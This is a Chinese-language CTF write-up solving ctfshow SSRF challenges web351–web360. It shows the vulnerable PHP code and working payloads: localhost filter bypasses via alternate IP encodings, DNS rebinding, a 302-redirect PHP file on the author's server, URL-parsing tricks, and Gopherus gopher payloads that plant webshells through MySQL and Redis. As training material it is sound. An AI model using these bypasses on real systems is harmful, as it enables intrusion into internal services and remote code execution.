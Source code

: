 ---

## web351

给了一段代码，不知道什么意思就去查看[PHP cURL 函数 | 菜鸟教程](https://www.runoob.com/php/php-ref-curl.html "PHP cURL 函数 | 菜鸟教程")

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);//初始化 cURL 会话
curl_setopt($ch, CURLOPT_HEADER, 0);//启用时会将头文件的信息作为数据流输出。
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);//将curl_exec()获取的信息以文件流的形式返回，而不是直接输出。
$result=curl_exec($ch);//执行 cURL 会话
curl_close($ch);//关闭 cURL 会话
echo ($result);
?>
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

这代码其实就是没有做任何防护，我们的目的就是 进入内网获取信息

直接post

```
url=http://127.0.0.1/flag.php
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

## web352

```
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

> 记录一下parse_url()的作用
> 
> http://u:p@a.com:80@b.com/
> 
> php解析结果：
> 
> schema: http
> 
> host: b.com
> 
> user: u
> 
> pass: p@a.com:80
> 
> 所以这题只需满足是http或者https就行，根本没影响

稍作过滤， 127.0.0.1的绕过方式太多了，

```
127.0.0.1绕过-进制转换
 
十进制 2130706433
 
八进制 017700000001
 
二进制 0b1111111000000000000000000000001 
十六进制 0x7f000001
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

```
http://localhost/       # localhost就是代指127.0.0.1
http://0/               # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

## web353

```
if(!preg_match('/localhost|127\.0\.|\。/i', $url))
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

同上

## web354

```
if(!preg_match('/localhost|1|0|。/i', $url))
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

0和1都禁用了，想拿http://①②⑦.⓪.⓪.①来绕过，但是没有反应

看大佬修改自己域名的a记录，也去尝试一下

域名解析的记录值修改成127.0.0.1

![](https://img-blog.csdnimg.cn/c9563a2a67c048169f73f810a563185f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

payload：

```
url=http://自己的域名/flag.php
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

## web355

```
$host=$x['host'];
if((strlen($host)<=5)) //这里的host就是127.0.0.1
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

控制host长度小于5 ，直接127.1 就行

## web356

```
$host=$x['host'];
if((strlen($host)<=3)){
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

3个长度，直接 url=http://0/flag.php

## web357

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?>
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

[PHP FILTER_VALIDATE_IP 过滤器 | 菜鸟教程](https://www.runoob.com/php/filter-validate-ip.html "PHP FILTER_VALIDATE_IP 过滤器 | 菜鸟教程")

[PHP filter_var() 函数 | 菜鸟教程](https://www.runoob.com/php/func-filter-var.html "PHP filter_var() 函数 | 菜鸟教程")

看教程用302跳转，就是在自己的服务器上写一个php文件，内容如下

```
<?php 
header("Location: http://127.0.0.1/flag.php");
?>
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

然后访问这个文件

```
url=http://thnpkm.xyz/ssrf.php
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

## web358

```
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

以ctf开头，show结尾，有个操作用@和?

在@前加的内容都不会被解析成host的内容，而#或?后面的的内容也不会被解析到path中

```
url=http://ctf.@127.0.0.1/flag.php?show
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")

![](https://img-blog.csdnimg.cn/aeaedc09b366486cb701f3ad900a26e6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

## web359

打无密码的mysql

完全是跟着wp来尝试，就是通过Gopherus把一句话写进网站根目录，语句要正确

![](https://img-blog.csdnimg.cn/22edac17adb8451e837f526867bcfde8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

然后复制过去

![](https://img-blog.csdnimg.cn/b2543354746c41aa8e18b117bcf3c143.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

下划线后面的值再url编码一次，然后执行

这样一句话打进去后就可以在a.php 下rce了

![](https://img-blog.csdnimg.cn/8c9fc09c8ed54e8cbb91284b75df6bd3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

## web360

打redis

也是看wp学操作， 进入redis

![](https://img-blog.csdnimg.cn/e73c1a2751ee41edb961ee3cba26db1b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVGhuUGtt,size_20,color_FFFFFF,t_70,g_se,x_16)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw== "点击并拖拽以移动")​

默认是在shell.php执行，操作方式与上题一样，下划线后url编码

自己没弄出来，可能把题目环境搞崩了

​
